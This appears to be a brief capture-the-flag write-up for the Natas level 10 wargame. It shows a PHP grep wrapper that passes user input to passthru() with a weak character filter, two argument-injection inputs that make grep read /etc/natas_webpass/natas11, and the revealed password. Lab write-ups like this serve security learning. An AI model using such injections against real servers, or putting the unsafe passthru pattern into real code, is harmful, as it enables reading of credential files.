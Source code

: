 ```php
if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
```

Either comment out `dictionary.txt` or exploit the fact that `grep` can be used to search multiple files.
- `-E "\w+" /etc/natas_webpass/natas11 #`
- `g /etc/natas_webpass/natas11` (search for a random letter `g`)

```
UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
```
